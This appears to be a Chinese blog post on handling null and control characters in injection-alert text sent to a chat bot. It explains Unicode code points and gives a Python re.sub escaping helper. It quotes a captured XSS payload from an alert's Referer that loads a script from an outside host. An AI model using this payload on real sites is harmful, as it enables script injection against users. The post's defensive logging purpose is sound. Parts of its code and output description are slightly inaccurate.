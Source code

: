 # 传参中的\u0000如何处理

在处理注入攻击告警的时候遇到一种类型的告警如下：

```
Referer
https://www.kujiale.com/decoproduct/model?8a07a2lk=0uivft21&query=ccccc\"><body/hidden>\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000<scrIpT/src=//m.goyto.com/js/xs.js><noscript>&type=hb
```

但是在将文本传递到企业微信机器人通知的时候因为Unicode编码中`\u0000`代表的是空字符，属于控制字符，也叫不可显字符。这个空字符与空格不同，空格的编号是 `\u0020`，`\u0000`就是一个包含一个字符的字符串，而`\u0000`是一个空字符串，这个字符串中一个字符也没有。

Unicode 标准描述了字符是如何用 **码位（code point）** 表示的。码位的取值范围是 0 到 0x10FFFF 的整数（大约 110 万个值，[实际分配的数字](https://www.unicode.org/versions/latest/#Summary) 没有那么多）。在 Unicode 标准和本文中，码位采用 `U+265E` 的形式，表示值为 `0x265e` 的字符（十进制为 9822）。

在内存中会用包含八个二进制位的字节来存储这个 Unicode 字符，将 Unicode 字符串翻译成字节序列的规则就是**字符编码**。

如果我们想要对这中特殊字符做处理，一种方式就是利用`re`模块里的`sub`对这些文本做替换

```python
def special_char_handler(m):
    matched_text = m.group(0)
    l = [
        '\u0000', # 字符串的终止符或作为数据流的结束标志
        '\u001F', # 单元分隔符，在文本处理中用于分隔数据字段
        '\u0080', # 旧版ASCII字符集中用于填充字节
        '\u009F', # 在ASCII字符集中用于发送特定命令给终端设备
        '\u000D', # 在文本中表示光标返回到当前行的开头
    ]
    if matched_text in l: # 如果判定 Unicode 字符是特殊的控制字符，则对该字符码点转换为4位十六进制表示形式的字符串
        matched_text = '\\\\u' + format(ord(matched_text), '04x')
    return matched_text


text = 'abc\u0000def'
text = re.sub(r'[\u0000-\uFFFF]', special_char_handler, text)

print(text)
```

当`sub()`的参数`repl`是一个函数的时候，每次匹配到的`Match`对象都会被传入这个函数中做处理，然后将返回值作为正真用于替换的字符串字面量

`format(ord(matched_text), '04x')` 是一个Python表达式，它的作用是将 `matched_text` 的Unicode码点转换为4位十六进制表示形式的字符串。

- `ord(matched_text)` 返回 `matched_text` 的Unicode码点。`ord()` 函数接受一个字符作为参数，并返回该字符对应的Unicode码点。
- `'04x'` 是格式化字符串，其中的 `'x'` 表示以十六进制形式输出，而 `'04'` 表示输出至少包含4个字符，并按需要使用零填充。

所以上面代码的返回结果就会是形如`\u000`的字符串。